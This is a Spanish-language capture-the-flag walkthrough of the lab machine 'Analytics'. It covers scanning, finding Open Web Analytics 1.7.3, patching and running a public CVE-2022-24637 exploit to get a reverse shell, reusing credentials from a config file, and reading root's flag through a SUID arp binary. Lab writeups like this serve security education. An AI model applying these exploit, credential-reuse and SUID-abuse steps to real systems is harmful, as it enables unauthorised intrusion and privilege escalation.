

+++
author = "Andrés Del Cerro"
title = "CyberWave: Analytics Writeup | Medium"
date = "2024-11-07"
description = ""
tags = [
    "CyberWave",
    "Analytics",
    "Writeup",
    "Cybersecurity",
    "Penetration Testing",
    "CTF",
    "Reverse Shell",
    "Privilege Escalation",
    "RCE",
    "Exploit",
    "Linux",
    "HTTP Enumeration",
    "Discovering Subdomains",
    "Python Scripting",
    "Scripting",
    "Burpsuite",
    "CVE-2022-24637",
    "Remote Command Execution",
    "Information Disclosure",
    "Password Reuse",
    "User Pivoting",
    "Abusing arp SUID",
    "Data Exfiltration"
]
+++

# CyberWave: Analytics Writeup

Welcome to my detailed writeup of the medium difficulty machine **"Analytics"** on CyberWave. This writeup will cover the steps taken to achieve initial foothold and escalation to root.

# TCP Enumeration

```console
➜  scan rustscan -a  10.10.10.5 --ulimit 5000 -g
10.10.10.5 -> [22,80]
```

```console
➜  scan nmap -p22,80 -sCV 10.10.10.5 -oN allPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-07 13:19 CET
Nmap scan report for 10.10.10.5
Host is up (0.028s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey:
|   3072 8c:36:92:9c:1b:a3:3f:00:c1:4d:ee:1c:09:9d:63:f2 (RSA)
|   256 8f:1a:39:e9:10:b5:ff:df:dc:68:75:6c:bb:f5:04:50 (ECDSA)
|_  256 c7:b5:b8:77:20:44:b8:30:24:00:fd:28:d4:5a:37:7b (ED25519)
80/tcp open  http    Apache httpd 2.4.59 ((Debian))
|_http-title: ECORP Jobs
|_http-server-header: Apache/2.4.59 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.84 seconds
```

# UDP Enumeration

```console
➜  scan sudo nmap --top-ports 1500 -n -Pn -sU --min-rate 5000 10.10.10.5 -oN allPorts.UDP
[sudo] password for kali:
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-07 13:19 CET
Nmap scan report for 10.10.10.5
Host is up (0.048s latency).
Not shown: 1494 open|filtered udp ports (no-response)
PORT      STATE  SERVICE
1031/udp  closed iad2
21405/udp closed unknown
25135/udp closed unknown
27899/udp closed unknown
37602/udp closed unknown
52225/udp closed unknown

Nmap done: 1 IP address (1 host up) scanned in 1.02 seconds
```

Del escaneo inicial podemos deducir que la intrusión de esta máquina va a ser vía web.

# HTTP Enumeration
`whatweb` nos reporta un correo electrónico, vamos a agregar el dominio `ecorp.bsh` al `/etc/hosts`
```console
➜  scan whatweb http://10.10.10.5
http://10.10.10.5 [200 OK] Apache[2.4.59], Bootstrap, Country[RESERVED][ZZ], Email[contact@ecorp.bsh], HTML5, HTTPServer[Debian Linux][Apache/2.4.59 (Debian)], IP[10.10.10.5], JQuery, Script[text/javascript], Title[ECORP Jobs]
```

Así se ve el sitio web.


En el recurso `/team.html` encontramos varios nombres de usuario, podría ser interesante.


Por el resto no encuentro nada interesante, el sitio web es muy estático, así que vamos a fuzzear para buscar recursos que si contengan algo.

Antes de ello, un dato interesante, es que `Wappalyzer` me detecta una tecnología llamada `Open Web Analytics` y casualmente el nombre de la máquina es `Analytics`


Fuzzeando con `feroxbuster` no encontré ninguna ruta interesante.
```console
➜  content feroxbuster -u http://ecorp.bsh -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -d 1 -t 100 -x html,txt

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.3
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://ecorp.bsh
 🚀  Threads               │ 100
 📖  Wordlist              │ /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.3
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [html, txt]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 1
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        9l       31w      271c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET        9l       28w      274c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET      349l      906w    13298c http://ecorp.bsh/index.html
200      GET      200l      484w     7105c http://ecorp.bsh/blog.html
200      GET      136l      356w     4727c http://ecorp.bsh/contact.html
200      GET        7l       15w      149c http://ecorp.bsh/assets/css/noscript.css
200      GET      243l     1602w   118202c http://ecorp.bsh/images/blog-3-720x480.jpg
200      GET        2l     1283w    86929c http://ecorp.bsh/assets/js/jquery.min.js
200      GET      293l     1929w   155391c http://ecorp.bsh/images/product-6-720x480.jpg
200      GET      385l     2454w   166861c http://ecorp.bsh/images/product-3-720x480.jpg
200      GET      438l     2980w   263142c http://ecorp.bsh/images/product-1-720x480.jpg
200      GET      992l     5817w   478974c http://ecorp.bsh/images/slider-image-1-1920x700.jpg
200      GET     1024l     5823w   544102c http://ecorp.bsh/images/banner-image-6-1920x500.jpg
200      GET      307l      634w    10246c http://ecorp.bsh/jobs.html
200      GET      204l     1348w   104673c http://ecorp.bsh/images/map.jpg
301      GET        9l       28w      307c http://ecorp.bsh/assets => http://ecorp.bsh/assets/
200      GET     1024l     5823w   544102c http://ecorp.bsh/images/banner-image-3-1920x500.jpg
200      GET      148l      493w     5919c http://ecorp.bsh/testimonials.html
200      GET      243l     1602w   118202c http://ecorp.bsh/images/blog-6-720x480.jpg
200      GET      296l     1860w   141904c http://ecorp.bsh/images/blog-5-720x480.jpg
200      GET      362l     2144w   181752c http://ecorp.bsh/images/blog-4-720x480.jpg
200      GET     1024l     5823w   544102c http://ecorp.bsh/images/banner-image-5-1920x500.jpg
200      GET      114l      587w     5895c http://ecorp.bsh/terms.html
200      GET      289l     1159w   103587c http://ecorp.bsh/images/team-image-4-646x680.jpg
200      GET      378l     2137w   175235c http://ecorp.bsh/images/team-image-1-646x680.jpg
301      GET        9l       28w      307c http://ecorp.bsh/manual => http://ecorp.bsh/manual/
200      GET      591l     3197w   240945c http://ecorp.bsh/images/team-image-3-646x680.jpg
200      GET     1024l     5823w   544102c http://ecorp.bsh/images/banner-image-2-1920x500.jpg
200      GET      544l     3167w   272261c http://ecorp.bsh/images/team-image-2-646x680.jpg
200      GET      155l      297w     4503c http://ecorp.bsh/team.html
301      GET        9l       28w      307c http://ecorp.bsh/images => http://ecorp.bsh/images/
200      GET      162l      237w     2917c http://ecorp.bsh/assets/js/main.js
200      GET        2l       37w     2257c http://ecorp.bsh/assets/js/jquery.scrollex.min.js
200      GET      103l      411w     4511c http://ecorp.bsh/about.html
200      GET      186l      537w     7490c http://ecorp.bsh/job-details.html
200      GET        7l     1667w   140942c http://ecorp.bsh/assets/bootstrap/css/bootstrap.min.css
200      GET      374l     2519w   198182c http://ecorp.bsh/images/product-4-720x480.jpg
200      GET        2l       23w      831c http://ecorp.bsh/assets/js/jquery.scrolly.min.js
200      GET      136l      400w     5047c http://ecorp.bsh/blog-post.html
200      GET      593l     3812w   320276c http://ecorp.bsh/images/slider-image-3-1920x700.jpg
200      GET        0l        0w    98343c http://ecorp.bsh/images/product-5-720x480.jpg
200      GET        0l        0w    61915c http://ecorp.bsh/assets/css/main.css
200      GET        0l        0w    83173c http://ecorp.bsh/images/blog-2-720x480.jpg
200      GET        0l        0w    87507c http://ecorp.bsh/images/product-2-720x480.jpg
200      GET        0l        0w    97512c http://ecorp.bsh/images/slider-image-2-1920x700.jpg
200      GET        0l        0w    70972c http://ecorp.bsh/assets/bootstrap/js/bootstrap.bundle.min.js
200      GET      349l      906w    13298c http://ecorp.bsh/
200      GET     1024l     5823w   544102c http://ecorp.bsh/images/banner-image-1-1920x500.jpg
200      GET      827l     4785w   461270c http://ecorp.bsh/images/blog-fullscreen-1-1920x700.jpg
[####>---------------] - 61s   135271/623055  3m      found:47      errors:8
```

# Discovering Vulnerable "OWA" version
Buscando por la tecnología encontrada, vemos que existe un PoC para el **[CVE-2022-24637](https://github.com/0xRyuk/CVE-2022-24637)** , esta vulnerabilidad es de tipo RCE.


Al ojear el repositorio, encontramos una ruta, `/owa`


Pero esta ruta no existe.


Sin embargo, viendo el código fuente del sitio web, encontramos un dominio, `ecorp-analytics.bsh`, lo vamos a añadir al `/etc/hosts`


Ahora sí, vemos el panel de inicio de sesión de "OWA"


Ahora necesito descubrir la versión del servicio para ver si es vulnerable, una simple inspección del código fuente revela que la versión es la `1.7.3` por los recursos CSS.


# **[CVE-2022-24637](https://github.com/0xRyuk/CVE-2022-24637)**
Así que es hora de usar el PoC encontrado. Primero nos lo clonamos.
```console
➜  content git clone https://github.com/0xRyuk/CVE-2022-24637
Cloning into 'CVE-2022-24637'...
remote: Enumerating objects: 11, done.
remote: Counting objects: 100% (11/11), done.
remote: Compressing objects: 100% (9/9), done.
remote: Total 11 (delta 2), reused 8 (delta 1), pack-reused 0 (from 0)
Receiving objects: 100% (11/11), 7.75 KiB | 2.58 MiB/s, done.
Resolving deltas: 100% (2/2), done.
```

Primero cambiamos las variables `$ip` y `$port` por nuestra IP de atacante y el puerto por el que vamos a estar en escucha para la reverse shell.


Ahora, nos ponemos en escucha con `pwncat-cs` por el puerto 443.
```console
➜  ~ pwncat-cs -lp 443
```

Sin embargo al lanzar el exploit obtenemos un error.
```console
➜  CVE-2022-24637 git:(main) ✗ python3 exploit.py http://ecorp-analytics.bsh
[SUCCESS] Connected to "http://ecorp-analytics.bsh/" successfully!
[ALERT] The webserver indicates a vulnerable version!
[INFO] Attempting to generate cache for "admin" user
[INFO] Attempting to find cache of "admin" user
Traceback (most recent call last):
  File "/home/kali/Desktop/analytics_c/content/CVE-2022-24637/exploit.py", line 175, in <module>
    cache_username = get_cache_username(cache)
                     ^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/home/kali/Desktop/analytics_c/content/CVE-2022-24637/exploit.py", line 71, in get_cache_username
    return re.search(regex_cache_username, cache).group(1)
           ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
AttributeError: 'NoneType' object has no attribute 'group'
```

# Fixing the exploit and Remote Command Execution -> Foothold
Así que primero, vamos a echar un ojo al exploit y entender que hace.

Resumiendo, se intenta generar y localizar un archivo de caché asociado al usuario deseado (por defecto "admin") el cual sin necesidad de autenticación podemos ver. Una vez encontrado, extrae el `temp_passkey` (clave temporal), un identificador que permite cambiar la contraseña sin autenticar al usuario.

Después de eso, podemos cambiar la contraseña del usuario administrador, nos conectamos como este usuario y redirigimos el log de errores a un archivo PHP que es nuestra reverse shell.

Al acceder al supuesto log que es nuestro payload, en el servidor se ejecuta el código malicioso y obtenemos una consola.

Por alguna razón, la expresión regular en el exploit está mal formada y no se puede obtener el dato de `user_id`, así que vamos a realizar este paso de forma manual.

Entonces, vamos a tunelizar las solicitudes que hace el exploit, abrimos `burpsuite` y este PoC viene preparado para que mediante el parámetro `-P` le pasemos un proxy.
```console
➜  CVE-2022-24637 git:(main) ✗ python3 exploit.py http://ecorp-analytics.bsh -P http://127.0.0.1:8080
```

Intenta hacer un inicio de sesión con las credenciales `admin:admin`, y vamos a la parte interesante.


Vamos a darle click derecho y a `Response to this request` para visualizar la respuesta.


Y vemos lo siguiente, podemos decodificar el base64 para ver que contiene con `echo BASE64 | base64 -d | cat -l json`


Y vemos mucha información, lo que me interesa es el campo `user_id` que es lo que se utiliza en el exploit, en este caso el valor es `webadmin`.


Vamos a abrir el `exploit.py` y vamos a modificar la línea 71 que es donde ocurre nuestro problema y vamos a devolver directamente el valor de `webadmin`.
```python
def get_cache_username(cache):
   regex_cache_username = r'"user_id";O:12:"owa_dbColumn":11:{s:4:"name";N;s:5:"value";s:5:"(\w*)"'
   #return re.search(regex_cache_username, cache).group(1)
   return "webadmin"
```

Entonces, ahora habiendo solucionado este error y sabiendo que el usuario existente (se necesita saber el nombre del usuario para el exploit) es `webadmin`, podemos ponernos en escucha con `pwncat-cs` otra vez por el puerto 443 y lanzar el exploit.

```console
➜  CVE-2022-24637 git:(main) ✗ python3 exploit.py http://ecorp-analytics.bsh -u webadmin
[SUCCESS] Connected to "http://ecorp-analytics.bsh/" successfully!
[ALERT] The webserver indicates a vulnerable version!
[INFO] Attempting to generate cache for "webadmin" user
[INFO] Attempting to find cache of "webadmin" user
[INFO] Found temporary password for user "webadmin": f3576d20024cca262aeaf152a732c142
[INFO] Changed the password of "webadmin" to "OYSWS67Zay8UQz7LYWkGX2fFDQk2AmrM"
[SUCCESS] Logged in as "webadmin" user
[INFO] Creating log file
[INFO] Wrote payload to log file
```

Y ganamos acceso a la máquina víctima.
```console
(remote) www-data@analytics:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
(remote) www-data@analytics:/$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: ens18: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether e6:a4:2a:31:01:bd brd ff:ff:ff:ff:ff:ff
    altname enp0s18
    inet 10.10.10.5/24 brd 10.10.10.255 scope global ens18
       valid_lft forever preferred_lft forever
    inet6 fe80::e4a4:2aff:fe31:1bd/64 scope link
       valid_lft forever preferred_lft forever
```

# User Pivoting
Primero vamos a descubrir que otros usuarios existen en la máquina que tengan una bash, ya que el usuario `www-data` no tiene la flag por ninguna parte.
```console
(remote) www-data@analytics:/$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
webadmin:x:1000:1000:,,,:/home/webadmin:/bin/bash
```

Vemos que existe un usuario llamado `webadmin`

Vamos a lo obvio, vamos a buscar archivos de configuración en el `owa` para ver si se reutilizan credenciales.

En el directorio `/var/www/html/owa` podemos encontrar los archivos del servicio, y encontramos un archivo llamado `owa-config.php`
```console
(remote) www-data@analytics:/var/www/html/owa$ ls
CODE_OF_CONDUCT.md  index.php		     owa_caller.php	  owa_mw.php
CONTRIBUTING.md     install.php		     owa_controller.php   owa_observer.php
LICENCE		    log.php		     owa_coreAPI.php	  owa_php.php
README.md	    modules		     owa_db.php		  owa_reportController.php
api		    mw_plugin.php	     owa_entity.php	  owa_requestContainer.php
blank.php	    owa-config-dist.php      owa_env.php	  owa_template.php
cli.php		    owa-config.php	     owa_httpRequest.php  owa_view.php
composer.json	    owa-data		     owa_install.php	  plugins
composer.lock	    owa.php		     owa_lib.php	  queue.php
conf		    owa_adminController.php  owa_location.php	  vendor
daemon.php	    owa_auth.php	     owa_metric.php	  wp_plugin.php
includes	    owa_base.php	     owa_module.php
```

Encontramos unas credenciales de acceso a base de datos para un usuario llamado `webadmin`


Si probamos estas credenciales para intentar migrar de usuario, vemos que funciona.
```console
(remote) www-data@analytics:/var/www/html/owa$ su webadmin
Password:
webadmin@analytics:/var/www/html/owa$ id
uid=1000(webadmin) gid=1000(webadmin) groups=1000(webadmin),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev)
```

Y podemos ver la flag de usuario.
```console
webadmin@analytics:~$ cat user.txt
057d8594afd195e...
```

# Privilege Escalation
## Abusing `arp` SUID
Enumerando la máquina podemos ver algo interesante en el `.bash_history` de `webadmin`

```console
/.check_metadata
./.check_metadata image.jpg
sudo ./.check_metadata
exit
ls a-ll
ls -all
./.check_metadata image.jpg
exit
./.check_metadata image.jpg
exit
LFILE=/root/root.txt
arp -v -f "$LFILE"
clear
exit
```

Literalmente nos ha chivado la escalada de privilegios, ~~muy realista todo~~

Podemos comprobar que el binario de `arp` tiene permiso de SUID y el propietario es `root`
```console
webadmin@analytics:~$ find / \-perm -4000 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/sbin/arp
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/su
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/chfn
```

```console
webadmin@analytics:~$ ls -la  /usr/sbin/arp
-rwsr-xr-- 1 root webadmin 67672 Oct  2  2020 /usr/sbin/arp
```

Podemos consultar en [GTFOBins](https://gtfobins.github.io/gtfobins/arp/#suid) y vemos que tenemos un apartado de SUID para escalar privilegios.

```console
sudo install -m =xs $(which arp) .

LFILE=file_to_read
./arp -v -f "$LFILE"
```

Simplemente mediante el parámetro `-f` le podemos pasar una ruta de un archivo que queramos leer y nos mostrará el contenido mediante un log de error.

De esta forma podemos leer la flag de `root`
```console
webadmin@analytics:~$ /usr/sbin/arp -v -f "/root/root.txt"
>> 4b11dd73038b760...
arp: format error on line 1 of etherfile /root/root.txt !
```

¡Y ya estaría!

Happy Hacking! 🚀